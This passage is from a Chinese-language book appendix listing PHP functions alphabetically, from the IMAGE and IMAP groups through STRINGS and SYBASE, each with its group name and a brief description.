| ImageCharUp | IMAGE | 垂直绘制一个字符 |
| ImageColorAllocate | IMAGE | 为图像分配颜色 |
| ImageColorAt | IMAGE | 获取像素颜色的索引 |
| ImageColorClosest | IMAGE | 获取与指定颜色最接近的颜色索引 |
| ImageColorExact | IMAGE | 获取指定颜色的索引 |
| ImageColorResolve | IMAGE | 获取指定颜色或其最接近的可能替代色的索引 |
| ImageColorSet | IMAGE | 设置指定调色板索引的颜色 |
| ImageColorsForIndex | IMAGE | 获取某个索引的颜色 |
| ImageColorsTotal | IMAGE | 查找图像调色板中的颜色数量 |
| ImageColorTransparent | IMAGE | 将颜色定义为透明 |
| ImageCopyResized | IMAGE | 复制并调整图像部分的大小 |
| ImageCreate | IMAGE | 创建一个新图像 |
| ImageCreateFromGif | IMAGE | 从文件或URL创建新图像 |
| ImageDashedLine | IMAGE | 绘制虚线 |
| ImageDestroy | IMAGE | 销毁图像 |
| ImageFill | IMAGE | 泛洪填充 |
| ImageFilledPolygon | IMAGE | 绘制填充多边形 |
| ImageFilledRectangle | IMAGE | 绘制填充矩形 |
| ImageFillToBorder | IMAGE | 泛洪填充至特定颜色 |
| ImageFontHeight | IMAGE | 获取字体高度 |
| ImageFontWidth | IMAGE | 获取字体宽度 |
| ImageGif | IMAGE | 将图像输出到浏览器或文件 |
| ImageInterlace | IMAGE | 启用或禁用隔行扫描 |
| ImageLine | IMAGE | 绘制线条 |
| ImageLoadFont | IMAGE | 加载新字体 |
| ImagePolygon | IMAGE | 绘制多边形 |
| ImagePSBBox | IMAGE | 使用PostScript Type1字体给出文本矩形的边界框 |
| ImagePSCopyFont | IMAGE | 复制已加载的字体以供进一步修改 |
| ImagePSEncodeFont | IMAGE | 更改字体的字符编码向量 |
| ImagePSFreeFont | IMAGE | 释放PostScript Type 1字体使用的内存 |
| ImagePSLoadFont | IMAGE | 从文件加载PostScript Type 1字体 |
| ImagePSText | IMAGE | 使用PostScript Type1字体在图像上绘制文本字符串 |
| ImageRectangle | IMAGE | 绘制矩形 |
| ImageSetPixel | IMAGE | 设置单个像素 |
| ImageString | IMAGE | 水平绘制字符串 |
| ImageStringUp | IMAGE | 垂直绘制字符串 |
| ImageSX | IMAGE | 获取图像宽度 |
| ImageSY | IMAGE | 获取图像高度 |
| ImageTTFBBox | IMAGE | 使用TrueType字体给出文本的边界框 |
| ImageTTFText | IMAGE | 使用TrueType字体将文本写入图像 |
| imap_8bit | IMAP | 将8位字符串转换为引用-可打印字符串 |
| imap_append | IMAP | 将字符串消息追加到指定邮箱 |
| imap_base64 | IMAP | 解码BASE64编码的文本 |
| imap_binary | IMAP | 将8位字符串转换为base64字符串 |
| imap_body | IMAP | 读取消息正文 |
| imap_check | IMAP | 检查当前邮箱 |
| imap_clearflag_full | IMAP | 清除消息上的标志 |


### 附录 D.1 PHP 函数按字母顺序排列（续）

| 函数名 | 组名 | 描述 |
| --- | --- | --- |
| imap_close | IMAP | 关闭一个 IMAP 流 |
| imap_createmailbox | IMAP | 创建一个新邮箱 |
| imap_delete | IMAP | 将当前邮箱中的消息标记为删除 |
| imap_deletemailbox | IMAP | 删除一个邮箱 |
| imap_expunge | IMAP | 删除所有标记为删除的消息 |
| imap_fetchbody | IMAP | 获取消息正文的特定部分 |
| imap_fetchstructure | IMAP | 读取特定消息的结构 |
| imap_header | IMAP | 读取消息的头信息 |
| imap_headers | IMAP | 返回邮箱中所有消息的头信息 |
| imap_listmailbox | IMAP | 读取邮箱列表 |
| imap_listsubscribed | IMAP | 列出所有已订阅的邮箱 |
| imap_mailboxmsginfo | IMAP | 获取当前邮箱的信息 |
| imap_mail_copy | IMAP | 将指定消息复制到邮箱 |
| imap_mail_move | IMAP | 将指定消息移动到邮箱 |
| imap_num_msg | IMAP | 给出当前邮箱中的消息数量 |
| imap_num_recent | IMAP | 给出当前邮箱中的最新消息数量 |
| imap_open | IMAP | 打开到邮箱的 IMAP 流 |
| imap_ping | IMAP | 检查 IMAP 流是否仍然活动 |
| imap_qprint | IMAP | 将 quoted-printable 字符串转换为 8 位字符串 |
| imap_renamemailbox | IMAP | 将旧邮箱重命名为新邮箱 |
| imap_reopen | IMAP | 重新打开 IMAP 流到新邮箱 |
| imap_rfc822_parse_adrlist | IMAP | 解析地址字符串 |
| imap_rfc822_write_address | IMAP | 根据邮箱、主机和个人信息返回格式正确的电子邮件地址 |
| imap_scanmailbox | IMAP | 读取邮箱列表，接受一个字符串在邮箱文本中搜索 |
| imap_setflag_full | IMAP | 在消息上设置标志 |
| imap_sort | IMAP | 返回按给定参数排序的消息编号数组 |
| imap_subscribe | IMAP | 订阅一个邮箱 |
| imap_uid | IMAP | 返回给定消息序列号的 UID |
| imap_undelete | IMAP | 取消标记被标记为删除的消息 |
| imap_unsubscribe | IMAP | 取消订阅一个邮箱 |
| implode | STRINGS | 用字符串连接数组元素 |
| intval | VAR | 获取变量的整数值 |
| iptcparse | MISC | 将二进制 IPTC http://www.xe.net/iptc/ 块解析为单个标签 |
| isset | VAR | 确定变量是否已设置 |
| is_array | VAR | 查找变量是否为数组 |
| is_dir | FILESYSTEM | 判断文件名是否为目录 |
| is_double | VAR | 查找变量是否为双精度浮点数 |
| is_executable | FILESYSTEM | 判断文件名是否可执行 |
| is_file | FILESYSTEM | 判断文件名是否为常规文件 |
| is_float | VAR | 查找变量是否为浮点数 |
| is_int | VAR | 查找变量是否为整数 |
| is_integer | VAR | 查找变量是否为整数 |
| is_link | FILESYSTEM | 判断文件名是否为符号链接 |
| is_long | VAR | 查找变量是否为整数 |
| is_object | VAR | 查找变量是否为对象 |
| is_readable | FILESYSTEM | 判断文件名是否可读 |
| is_real | VAR | 查找变量是否为实数 |
| is_string | VAR | 查找变量是否为字符串 |
| is_writeable | FILESYSTEM | 判断文件名是否可写 |
| JDDayOfWeek | CALENDAR | 返回星期几 |
| JDMonthName | CALENDAR | 返回月份名称 |
| JDToFrench | CALENDAR | 将儒略日计数转换为法国共和历 |
| JDToGregorian | CALENDAR | 将儒略日计数转换为格里高利日期 |
| JDToJewish | CALENDAR | 将儒略日计数转换为犹太历 |
| JDToJulian | CALENDAR | 将儒略历日期转换为儒略日计数 |
| JewishToJD | CALENDAR | 将犹太历日期转换为儒略日计数 |
| join | STRINGS | 用字符串连接数组元素 |
| JulianToJD | CALENDAR | 将儒略历日期转换为儒略日计数 |
| key | ARRAY | 从关联数组中获取键 |
| ksort | ARRAY | 按键对数组排序 |
| ldap_add | LDAP | 向 LDAP 目录添加条目 |
| ldap_bind | LDAP | 绑定到 LDAP 目录 |
| ldap_close | LDAP | 关闭到 LDAP 服务器的连接 |
| ldap_connect | LDAP | 连接到 LDAP 服务器 |
| ldap_count_entries | LDAP | 计算搜索中的条目数量 |
| ldap_delete | LDAP | 从目录中删除条目 |
| ldap_dn2ufn | LDAP | 将 DN 转换为用户友好命名格式 |
| ldap_explode_dn | LDAP | 将 DN 拆分为其组成部分 |
| ldap_first_attribute | LDAP | 返回第一个属性 |
| ldap_first_entry | LDAP | 返回第一个结果 ID |
| ldap_free_result | LDAP | 释放结果内存 |
| ldap_get_attributes | LDAP | 从搜索结果条目中获取属性 |
| ldap_get_dn | LDAP | 获取结果条目的 DN |
| ldap_get_entries | LDAP | 获取所有结果条目 |
| ldap_get_values | LDAP | 从结果条目中获取所有值 |
| ldap_list | LDAP | 单层搜索 |
| ldap_modify | LDAP | 修改 LDAP 条目 |
| ldap_mod_add | LDAP | 向当前属性添加属性值 |
| ldap_mod_del | LDAP | 从当前属性中删除属性值 |
| ldap_mod_replace | LDAP | 用新值替换属性值 |
| ldap_next_attribute | LDAP | 获取结果中的下一个属性 |
| ldap_next_entry | LDAP | 获取下一个结果条目 |
| ldap_read | LDAP | 读取条目 |
| ldap_search | LDAP | 搜索 LDAP 树 |
| ldap_unbind | LDAP | 从 LDAP 目录解绑 |
| leak | MISC | 泄漏内存 |
| link | FILESYSTEM | 创建硬链接 |
| linkinfo | FILESYSTEM | 获取链接信息 |
| list | ARRAY | 将变量分配为数组 |
| Log | MATH | 自然对数 |
| Log10 | MATH | 以 10 为底的对数 |
| lstat | FILESYSTEM | 提供文件或符号链接的信息 |
| ltrim | STRINGS | 去除字符串开头的空白 |
| mail | MAIL | 发送邮件 |
| max | MATH | 查找最高值 |
| mcrypt_cbc | MCRYPT | 在 CBC 模式下加密/解密数据 |
| mcrypt_cfb | MCRYPT | 在 CFB 模式下加密/解密数据 |
| mcrypt_create_iv | MCRYPT | 从随机源创建初始化向量 (IV) |
| mcrypt_ecb | MCRYPT | 在 ECB 模式下加密/解密数据 |
| mcrypt_get_block_size | MCRYPT | 获取指定密码的块大小 |
| mcrypt_get_cipher_name | MCRYPT | 获取指定密码的名称 |
| mcrypt_get_key_size | MCRYPT | 获取指定密码的密钥大小 |
| mcrypt_ofb | MCRYPT | 在 OFB 模式下加密/解密数据 |
| md5 | STRINGS | 计算字符串的 md5 哈希值 |
| mhash | MHASH | 计算哈希值 |
| mhash_count | MHASH | 获取最高可用的哈希 ID |
| mhash_get_block_size | MHASH | 获取指定哈希的块大小 |
| mhash_get_hash_name | MHASH | 获取指定哈希的名称 |
| microtime | DATETIME | 返回带有微秒的当前 UNIX 时间戳 |
| min | MATH | 查找最低值 |
| mkdir | FILESYSTEM | 创建目录 |
| mktime | DATETIME | 获取日期的 UNIX 时间戳 |
| msql | MSQL | 发送 mSQL 查询 |
| msql_affected_rows | MSQL | 返回受影响的行数 |
| msql_close | MSQL | 关闭 mSQL 连接 |
| msql_connect | MSQL | 打开 mSQL 连接 |
| msql_createdb | MSQL | 创建 mSQL 数据库 |
| msql_create_db | MSQL | 创建 mSQL 数据库 |
| msql_data_seek | MSQL | 移动内部行指针 |
| msql_dbname | MSQL | 获取当前 mSQL 数据库名称 |
| msql_dropdb | MSQL | 删除（删除）mSQL 数据库 |
| msql_drop_db | MSQL | 删除（删除）mSQL 数据库 |
| msql_error | MSQL | 返回上次 msql 调用的错误消息 |
| msql_fetch_array | MSQL | 以数组形式获取行 |
| msql_fetch_field | MSQL | 获取字段信息 |
| msql_fetch_object | MSQL | 以对象形式获取行 |
| msql_fetch_row | MSQL | 以枚举数组形式获取行 |
| msql_fieldflags | MSQL | 获取字段标志 |
| msql_fieldlen | MSQL | 获取字段长度 |
| msql_fieldname | MSQL | 获取字段名称 |
| msql_fieldtable | MSQL | 获取字段的表名 |
| msql_fieldtype | MSQL | 获取字段类型 |
| msql_field_seek | MSQL | 设置字段偏移量 |
| msql_freeresult | MSQL | 释放结果内存 |
| msql_free_result | MSQL | 释放结果内存 |
| msql_listdbs | MSQL | 列出服务器上的 mSQL 数据库 |
| msql_listfields | MSQL | 列出结果字段 |
| msql_listtables | MSQL | 列出 mSQL 数据库中的表 |
| msql_list_dbs | MSQL | 列出服务器上的 mSQL 数据库 |
| msql_list_fields | MSQL | 列出结果字段 |
| msql_list_tables | MSQL | 列出 mSQL 数据库中的表 |


# 表 D.1 按字母顺序排列的 PHP 函数（续）

| 函数名 | 组名 | 描述 |
|---|---|---|
| msql_numfields | MSQL | 获取结果中的字段数 |
| msql_numrows | MSQL | 获取结果中的行数 |
| msql_num_fields | MSQL | 获取结果中的字段数 |
| msql_num_rows | MSQL | 获取结果中的行数 |
| msql_pconnect | MSQL | 打开持久的 mSQL 连接 |
| msql_query | MSQL | 发送 mSQL 查询 |
| msql_regcase | MSQL | 生成用于不区分大小写匹配的正则表达式 |
| msql_result | MSQL | 获取结果数据 |
| msql_selectdb | MSQL | 选择 mSQL 数据库 |
| msql_select_db | MSQL | 选择 mSQL 数据库 |
| msql_tablename | MSQL | 获取字段的表名 |
| mssql_affected_rows | MSSQL | 获取上次查询影响的行数 |
| mssql_close | MSSQL | 关闭 MS SQL 服务器连接 |
| mssql_connect | MSSQL | 打开 MS SQL 服务器连接 |
| mssql_data_seek | MSSQL | 移动内部行指针 |
| mssql_fetch_array | MSSQL | 以数组形式获取行 |
| mssql_fetch_field | MSSQL | 获取字段信息 |
| mssql_fetch_object | MSSQL | 以对象形式获取行 |
| mssql_fetch_row | MSSQL | 以枚举数组形式获取行 |
| mssql_field_seek | MSSQL | 设置字段偏移量 |
| mssql_free_result | MSSQL | 释放结果内存 |
| mssql_num_fields | MSSQL | 获取结果中的字段数 |
| mssql_num_rows | MSSQL | 获取结果中的行数 |
| mssql_pconnect | MSSQL | 打开持久的 MS SQL 连接 |
| mssql_query | MSSQL | 发送 MS SQL 查询 |
| mssql_result | MSSQL | 获取结果数据 |
| mssql_select_db | MSSQL | 选择 MS SQL 数据库 |
| mt_getrandmax | MATH | 显示最大可能的随机值 |
| mt_rand | MATH | 生成更优的随机值 |
| mt_srand | MATH | 为更优的随机数生成器播种 |
| mysql_affected_rows | MYSQL | 获取上一次 MySQL 操作影响的行数 |
| mysql_close | MYSQL | 关闭 MySQL 连接 |
| mysql_connect | MYSQL | 打开与 MySQL 服务器的连接 |
| mysql_create_db | MYSQL | 创建一个 MySQL 数据库 |
| mysql_data_seek | MYSQL | 移动内部结果指针 |
| mysql_dbname | MYSQL | 获取当前 MySQL 数据库名 |
| mysql_db_query | MYSQL | 向 MySQL 发送一个 MySQL 查询 |
| mysql_drop_db | MYSQL | 删除（drop）一个 MySQL 数据库 |
| mysql_errno | MYSQL | 返回上一次 MySQL 操作的错误消息编号 |
| mysql_error | MYSQL | 返回上一次 MySQL 操作的错误消息文本 |
| mysql_fetch_array | MYSQL | 以关联数组形式获取结果行 |
| mysql_fetch_field | MYSQL | 从结果中获取列信息并作为对象返回 |
| mysql_fetch_lengths | MYSQL | 获取结果中每个输出的最大数据大小 |
| mysql_fetch_object | MYSQL | 以对象形式获取结果行 |
| mysql_fetch_row | MYSQL | 以枚举数组形式获取结果行 |
| mysql_field_flags | MYSQL | 获取结果中指定字段关联的标志 |
| mysql_field_len | MYSQL | 返回指定字段的长度 |
| mysql_field_name | MYSQL | 获取结果中指定字段的名称 |
| mysql_field_seek | MYSQL | 将结果指针设置到指定的字段偏移量 |
| mysql_field_table | MYSQL | 获取指定字段所在表的名称 |
| mysql_field_type | MYSQL | 获取结果中指定字段的类型 |
| mysql_free_result | MYSQL | 释放结果内存 |
| mysql_insert_id | MYSQL | 获取上一次 INSERT 操作生成的 ID |
| mysql_list_dbs | MYSQL | 列出 MySQL 服务器上可用的数据库 |
| mysql_list_fields | MYSQL | 列出 MySQL 结果字段 |
| mysql_list_tables | MYSQL | 列出 MySQL 数据库中的表 |
| mysql_num_fields | MYSQL | 获取结果中的字段数 |
| mysql_num_rows | MYSQL | 获取结果中的行数 |
| mysql_pconnect | MYSQL | 打开与 MySQL 服务器的持久连接 |
| mysql_query | MYSQL | 向 MySQL 发送一个 SQL 查询 |
| mysql_result | MYSQL | 获取结果数据 |
| mysql_select_db | MYSQL | 选择一个 MySQL 数据库 |
| mysql_tablename | MYSQL | 获取字段的表名 |
| next | ARRAY | 将数组的内部指针向前移动 |
| nl2br | STRINGS | 将换行符转换为 HTML 换行符 |
| number_format | MATH | 以千位分隔符格式化数字 |
| OCIBindByName | OCI8 | 将 PHP 变量绑定到 Oracle 占位符 |
| OCIColumnIsNULL | OCI8 | 测试结果列是否为 NULL |
| OCIColumnSize | OCI8 | 返回结果列大小 |
| OCICommit | OCI8 | 提交未完成的事务 |
| OCIDefineByName | OCI8 | 在 SELECT 期间使用 PHP 变量作为定义步骤 |
| OCIExecute | OCI8 | 执行一条语句 |
| OCIFetch | OCI8 | 将下一行获取到结果缓冲区 |
| OCIFetchInto | OCI8 | 将下一行获取到结果数组 |
| OCILogOff | OCI8 | 从 Oracle 断开连接 |
| OCILogon | OCI8 | 建立与 Oracle 的连接 |
| OCINumRows | OCI8 | 获取影响的行数 |
| OCIResult | OCI8 | 返回已获取行的列值 |
| OCIRollback | OCI8 | 回滚未完成的事务 |
| OctDec | MATH | 八进制转十进制 |
| odbc_autocommit | UODBC | 切换自动提交行为 |
| odbc_binmode | UODBC | 处理二进制列数据 |
| odbc_close | UODBC | 关闭一个 ODBC 连接 |
| odbc_close_all | UODBC | 关闭所有 ODBC 连接 |
| odbc_commit | UODBC | 提交一个 ODBC 事务 |
| odbc_connect | UODBC | 连接到数据源 |
| odbc_cursor | UODBC | 获取游标名 |
| odbc_do | UODBC | odbc_exec 的同义词 |
| odbc_exec | UODBC | 准备并执行一条 SQL 语句 |
| odbc_execute | UODBC | 执行一条已准备的语句 |
| odbc_fetch_into | UODBC | 将一个结果行获取到数组 |
| odbc_fetch_row | UODBC | 获取一行 |
| odbc_field_len | UODBC | 获取字段长度 |
| odbc_field_name | UODBC | 获取列名 |
| odbc_field_num | UODBC | 返回列号 |
| odbc_field_type | UODBC | 字段的数据类型 |
| odbc_free_result | UODBC | 释放与结果关联的资源 |
| odbc_longreadlen | UODBC | 处理 LONG 列 |
| odbc_num_fields | UODBC | 结果中的列数 |
| odbc_num_rows | UODBC | 结果中的行数 |
| odbc_pconnect | UODBC | 打开一个持久的数据库连接 |
| odbc_prepare | UODBC | 准备一条要执行的语句 |
| odbc_result | UODBC | 获取结果数据 |
| odbc_result_all | UODBC | 以 HTML 表格形式打印结果 |
| odbc_rollback | UODBC | 回滚一个事务 |
| odbc_setoption | UODBC | 调整 ODBC 设置。如果发生错误则返回 false，否则返回 true |
| opendir | DIR | 打开目录句柄 |
| openlog | NETWORK | 打开与系统日志记录器的连接 |
| Ora_Bind | ORACLE | 将 PHP 变量绑定到 Oracle 参数 |
| Ora_Close | ORACLE | 关闭一个 Oracle 游标 |
| Ora_ColumnName | ORACLE | 获取 Oracle 结果列的名称 |
| Ora_ColumnType | ORACLE | 获取 Oracle 结果列的类型 |
| Ora_Commit | ORACLE | 提交一个 Oracle 事务 |
| Ora_CommitOff | ORACLE | 禁用自动提交 |
| Ora_CommitOn | ORACLE | 启用自动提交 |
| Ora_Error | ORACLE | 获取 Oracle 错误消息 |
| Ora_ErrorCode | ORACLE | 获取 Oracle 错误代码 |
| Ora_Exec | ORACLE | 在 Oracle 游标上执行已解析的语句 |
| Ora_Fetch | ORACLE | 从游标获取一行数据 |
| Ora_GetColumn | ORACLE | 从已获取的行中获取数据 |
| Ora_Logon | ORACLE | 打开一个 Oracle 连接 |
| Ora_Open | ORACLE | 打开一个 Oracle 游标 |
| Ora_Parse | ORACLE | 解析一条 SQL 语句 |
| Ora_Rollback | ORACLE | 回滚事务 |
| Ord | STRINGS | 返回字符的 ASCII 值 |
| pack | MISC | 将数据打包成二进制字符串 |
| parse_str | STRINGS | 将字符串解析到变量中 |
| parse_url | URL | 解析一个 URL 并返回其组成部分 |
| passthru | EXEC | 执行一个外部程序并显示原始输出 |
| Pattern Options | PCRE | 描述正则表达式模式中可能的选项 |
| Pattern Syntax | PCRE | 描述 PCRE 正则表达式语法 |
| pclose | FILESYSTEM | 关闭进程文件指针 |
| pdf_add_annotation | PDF | 添加注释 |
| PDF_add_outline | PDF | 为当前页面添加书签 |
| PDF_arc | PDF | 绘制弧形 |
| PDF_begin_page | PDF | 开始新页面 |
| PDF_circle | PDF | 绘制圆形 |
| PDF_clip | PDF | 裁剪到当前路径 |
| PDF_close | PDF | 关闭一个 PDF 文档 |
| PDF_closepath | PDF | 关闭路径 |
| PDF_closepath_fill_stroke | PDF | 关闭、填充并描边当前路径 |
| PDF_closepath_stroke | PDF | 关闭路径并沿路径绘制线条 |
| PDF_close_image | PDF | 关闭一个图像 |
| PDF_continue_text | PDF | 在下一行输出文本 |
| PDF_curveto | PDF | 绘制曲线 |


# 表 D.1 按字母顺序排列的 PHP 函数（续）

| 函数名称 | 组名 | 描述 |
|---|---|---|
| PDF_endpath | PDF | 结束当前路径 |
| PDF_end_page | PDF | 结束一个页面 |
| PDF_execute_image | PDF | 在页面上放置一个已存储的图像 |
| PDF_fill | PDF | 填充当前路径 |
| PDF_fill_stroke | PDF | 填充并描边当前路径 |
| PDF_get_info | PDF | 返回 PDF 文档的默认信息结构 |
| PDF_lineto | PDF | 绘制一条线 |
| PDF_moveto | PDF | 设置当前点 |
| PDF_open | PDF | 打开一个新的 PDF 文档 |
| PDF_open_gif | PDF | 打开一个 GIF 图像 |
| PDF_open_jpeg | PDF | 打开一个 JPEG 图像 |
| PDF_open_memory_image | PDF | 打开一个使用 PHP 图像函数创建的图像 |
| PDF_place_image | PDF | 在页面上放置一个图像 |
| PDF_put_image | PDF | 在 PDF 中存储一个图像以供后续使用 |
| PDF_rect | PDF | 绘制一个矩形 |
| PDF_restore | PDF | 恢复之前保存的环境 |
| PDF_rotate | PDF | 设置旋转 |
| PDF_save | PDF | 保存当前环境 |
| PDF_scale | PDF | 设置缩放 |
| PDF_setdash | PDF | 设置虚线模式 |
| PDF_setflat | PDF | 设置平面度 |
| PDF_setgray | PDF | 将绘制和填充颜色设置为灰色值 |
| PDF_setgray_fill | PDF | 将填充颜色设置为灰色值 |
| PDF_setgray_stroke | PDF | 将绘制颜色设置为灰色值 |
| PDF_setlinecap | PDF | 设置线帽参数 |
| PDF_setlinejoin | PDF | 设置线连接参数 |
| PDF_setlinewidth | PDF | 设置线宽 |
| PDF_setmiterlimit | PDF | 设置斜接限制 |
| PDF_setrgbcolor | PDF | 将绘制和填充颜色设置为 RGB 颜色值 |
| PDF_setrgbcolor_fill | PDF | 将填充颜色设置为 RGB 颜色值 |
| PDF_setrgbcolor_stroke | PDF | 将绘制颜色设置为 RGB 颜色值 |
| PDF_set_char_spacing | PDF | 设置字符间距 |
| PDF_set_duration | PDF | 设置页面之间的持续时间 |
| PDF_set_font | PDF | 选择字体面和大小 |
| PDF_set_horiz_scaling | PDF | 设置文本的水平缩放 |
| PDF_set_info_author | PDF | 填写信息结构中的作者字段 |
| PDF_set_info_creator | PDF | 填写信息结构中的创建者字段 |
| PDF_set_info_keywords | PDF | 填写信息结构中的关键字字段 |
| PDF_set_info_subject | PDF | 填写信息结构中的主题字段 |
| PDF_set_info_title | PDF | 填写信息结构中的标题字段 |
| PDF_set_leading | PDF | 设置文本行之间的距离 |
| PDF_set_text_matrix | PDF | 设置文本矩阵 |
| PDF_set_text_pos | PDF | 设置文本位置 |
| PDF_set_text_rendering | PDF | 确定文本的渲染方式 |
| PDF_set_text_rise | PDF | 设置文本提升量 |
| PDF_set_transition | PDF | 设置页面之间的过渡效果 |
| PDF_set_word_spacing | PDF | 设置单词之间的间距 |
| PDF_show | PDF | 在当前位置输出文本 |
| PDF_show_xy | PDF | 在给定位置输出文本 |
| PDF_stringwidth | PDF | 使用当前字体返回文本宽度 |
| PDF_stroke | PDF | 沿路径绘制线条 |
| PDF_translate | PDF | 设置坐标系原点 |
| pfsockopen | NETWORK | 打开持久化的互联网或 UNIX 域套接字连接 |
| pg_Close | PGSOL | 关闭一个 PostgreSQL 连接 |
| pg_cmdTuples | PGSOL | 返回受影响的元组数量 |
| pg_Connect | PGSOL | 打开一个连接 |
| pg_DBname | PGSOL | 数据库名称 |
| pg_ErrorMessage | PGSOL | 错误消息 |
| pg_Exec | PGSOL | 执行一个查询 |
| pg_Fetch_Array | PGSOL | 以数组形式获取行 |
| pg_Fetch_Object | PGSOL | 以对象形式获取行 |
| pg_Fetch_Row | PGSOL | 以枚举数组形式获取行 |
| pg_FieldIsNull | PGSOL | 测试字段是否为 NULL |
| pg_FieldName | PGSOL | 返回字段的名称 |
| pg_FieldNum | PGSOL | 返回列的编号 |
| pg_FieldPrtLen | PGSOL | 返回打印长度 |
| pg_FieldSize | PGSOL | 返回指定字段的内部存储大小 |
| pg_FieldType | PGSOL | 返回对应字段编号的类型名称 |
| pg_FreeResult | PGSOL | 释放内存 |
| pg_GetLastOid | PGSOL | 返回最后一个对象标识符 |
| pg_Host | PGSOL | 返回主机名 |
| pg_loclose | PGSOL | 关闭一个大对象 |
| pg_locreate | PGSOL | 创建一个大对象 |
| pg_loopern | PGSOL | 打开一个大对象 |
| pg_loread | PGSQ | 读取一个大对象 |
| pg_loreadall | PGSQ | 读取整个大对象 |
| pg_lounlink | PGSQ | 删除一个大对象 |
| pg_lowrite | PGSQ | 写入一个大对象 |
| pg_NumFields | PGSQ | 返回字段数量 |
| pg_NumRows | PGSQ | 返回行数 |
| pg_Options | PGSQ | 返回选项 |
| pg_pConnect | PGSQ | 建立持久化数据库连接 |
| pg_Port | PGSQ | 返回端口号 |
| pg_Result | PGSQ | 从结果标识符返回值 |
| pg_tty | PGSQ | 返回 tty 名称 |
| phpinfo | INFO | 输出大量 PHP 信息 |
| phpversion | INFO | 获取当前 PHP 版本 |
| pi | MATH | 获取圆周率的值 |
| popen | FILESYSTEM | 打开进程文件指针 |
| pos | ARRAY | 从数组中获取当前元素 |
| pow | MATH | 指数表达式 |
| preg_match | PCRE | 执行正则表达式匹配 |
| preg_match_all | PCRE | 执行全局正则表达式匹配 |
| preg_replace | PCRE | 执行正则表达式搜索和替换 |
| preg_split | PCRE | 通过正则表达式分割字符串 |
| prev | ARRAY | 将内部数组指针回退 |
| print | STRINGS | 输出一个字符串 |
| printf | STRINGS | 输出格式化的字符串 |
| putenv | INFO | 设置环境变量的值。 |
| quoted_printable_decode | STRINGS | 将 quoted-printable 编码的字符串转换为 8 位字符串 |
| rand | MATH | 生成一个随机值 |
| range | ARRAY | 创建一个包含整数范围的数组 |
| rawurldecode | STRINGS | 解码 URL 编码的字符串 |
| rawurlencode | STRINGS | 根据 RFC1738 进行 URL 编码 |
| readdir | DIR | 从目录句柄中读取条目 |
| readfile | FILESYSTEM | 输出一个文件 |
| readgzfile | ZLIB | 输出一个 gz 文件 |
| readlink | FILESYSTEM | 返回符号链接的目标 |
| register_shutdown_function | MISC | 注册一个在关闭时执行的函数 |
| rename | FILESYSTEM | 重命名文件 |
| reset | ARRAY | 将数组的内部指针设置为第一个元素 |
| rewind | FILESYSTEM | 回退文件指针的位置 |
| rewinddir | DIR | 回退目录句柄 |
| rmdir | FILESYSTEM | 删除目录 |
| round | MATH | 四舍五入一个浮点数 |
| rsort | ARRAY | 按反向顺序排序数组 |
| sem_acquire | SEM | 获取一个信号量 |
| sem_get | SEM | 获取一个信号量 ID |
| sem_release | SEM | 释放一个信号量 |
| serialize | MISC | 生成一个值的可存储表示 |
| setcookie | HTTP | 发送一个 cookie |
| setlocale | STRINGS | 设置区域信息 |
| settype | VAR | 设置变量的类型 |
| set_file_buffer | FILESYSTEM | 在给定的文件指针上设置文件缓冲 |
| set_magic_quotes_runtime | INFO | 设置 magic_quotes_runtime 当前活动的配置设置 |
| set_socket_blocking | NETWORK | 设置套接字的阻塞/非阻塞模式 |
| set_time_limit | INFO | 限制最大执行时间 |
| shm_attach | SEM | 创建或打开一个共享内存段 |
| shm_detach | SEM | 断开与共享内存段的连接 |
| shm_get_var | SEM | 从共享内存中返回一个变量 |
| shm_put_var | SEM | 在共享内存中插入或更新一个变量 |
| shm_remove | SEM | 从 UNIX 系统中移除共享内存 |
| shm_remove_var | SEM | 从共享内存中移除一个变量 |
| shuffle | ARRAY | 打乱数组 |
| similar_text | STRINGS | 计算两个字符串之间的相似度 |
| Sin | MATH | 正弦 |
| sizeof | ARRAY | 获取数组中的元素数量 |
| sleep | MISC | 延迟执行 |
| snmpget | SNMP | 获取一个 SNMP 对象 |
| snmpwalk | SNMP | 从代理获取所有 SNMP 对象 |
| snmpwalkoid | SNMP | 查询关于网络实体的信息树 |
| snmp_get_quick_print | SNMP | 获取 UCD 库的 quick_print 设置的当前值 |
| snmp_set_quick_print | SNMP | 设置 UCD SNMP 库中 quick_print 的值 |
| solid_close | SOLID | 关闭一个 Solid 连接 |
| solid_connect | SOLID | 连接到一个 Solid 数据源 |


# 表 D.1 按字母顺序排列的 PHP 函数（续）

| 函数名 | 分组名 | 描述 |
| --- | --- | --- |
| solid_exec | SOLID | 执行 Solid 查询 |
| solid_fetchrow | SOLID | 从 Solid 查询中获取数据行 |
| solid_fieldname | SOLID | 获取 Solid 查询中列的名称 |
| solid_fieldnum | SOLID | 获取 Solid 查询中列的索引 |
| solid_freeresult | SOLID | 释放 Solid 查询的结果内存 |
| solid_numfields | SOLID | 获取 Solid 结果中的字段数量 |
| solid_numrows | SOLID | 获取 Solid 结果中的行数 |
| solid_result | SOLID | 从 Solid 结果中获取数据 |
| sort | ARRAY | 对数组进行排序 |
| soundex | STRINGS | 计算字符串的 soundex 键值 |
| split | REGEX | 按正则表达式将字符串分割为数组 |
| sprintf | STRINGS | 返回格式化后的字符串 |
| sql_regcase | REGEX | 创建用于大小写不敏感匹配的正则表达式 |
| sqrt | MATH | 平方根 |
| srand | MATH | 设置随机数生成器的种子 |
| stat | FILESYSTEM | 获取文件的信息 |
| strchr | STRINGS | 查找字符的首次出现位置 |
| strcmp | STRINGS | 二进制安全的字符串比较 |
| strcspn | STRINGS | 获取不匹配掩码的初始段长度 |
| strftime | DATETIME | 按照区域设置格式化本地时间/日期 |
| stripslashes | STRINGS | 去除用 addslashes 转义的引号 |
| strip_tags | STRINGS | 去除字符串中的 HTML 和 PHP 标签 |
| strlen | STRINGS | 获取字符串长度 |
| strpos | STRINGS | 查找字符串首次出现的位置 |
| strrchr | STRINGS | 查找字符串中字符最后一次出现的位置 |
| strrev | STRINGS | 反转字符串 |
| strrpos | STRINGS | 查找字符串中字符最后一次出现的位置 |
| strspn | STRINGS | 获取匹配掩码的初始段长度 |
| strstr | STRINGS | 查找字符串首次出现的位置 |
| strtok | STRINGS | 将字符串分词 |
| strtolower | STRINGS | 将字符串转换为小写 |
| strtoupper | STRINGS | 将字符串转换为大写 |
| strtr | STRINGS | 转换某些字符 |
| strval | VAR | 获取变量的字符串值 |
| str_replace | STRINGS | 将 haystack 中所有出现的 needle 替换为 str |
| substr | STRINGS | 返回字符串的一部分。 |
| sybase_affected_rows | SYBASE | 获取上次查询中受影响的行数 |
| sybase_close | SYBASE | 关闭 Sybase 连接 |
